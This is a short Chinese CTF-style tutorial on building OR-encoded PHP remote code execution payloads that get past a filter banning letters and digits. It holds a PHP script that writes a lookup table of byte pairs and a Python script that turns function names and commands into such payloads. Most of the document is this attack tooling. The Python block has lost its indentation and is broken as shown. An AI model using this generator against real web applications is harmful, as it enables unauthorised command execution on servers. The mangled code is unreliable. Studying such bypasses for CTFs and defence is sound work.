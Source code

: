 ```
<?php

$myfile = fopen("or_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
for ($j=0; $j <256 ; $j++) { 

if($i<16){
$hex_i='0'.dechex($i);
}
else{
$hex_i=dechex($i);
}
if($j<16){
$hex_j='0'.dechex($j);
}
else{
$hex_j=dechex($j);
}
$preg = '/[0-9a-z]/i';    // 根据题目给的正则表达式修改即可
if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
echo "";
}

else{
$a='%'.$hex_i;
$b='%'.$hex_j;
$c=(urldecode($a)|urldecode($b));
if (ord($c)>=32&ord($c)<=126) {
$contents=$contents.$c." ".$a." ".$b."\n";
}
}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

首先运行以上 PHP 脚本后，会生成一个 txt 文档 or_rce.txt，里面包含所有可见字符的或运算构造结果。

接着运行以下 Python 脚本，输入你想要构造的函数名和要执行的命令即可生成最终的 Payload：

```
# -*- coding: utf-8 -*-

def action(arg):
s1=""
s2=""
for i in arg:
f=open("or_rce.txt","r")
while True:
t=f.readline()
if t=="":
break
if t[0]==i:
#print(i)
s1+=t[2:5]
s2+=t[6:9]
break
f.close()
output="(\""+s1+"\"|\""+s2+"\")"
return(output)

```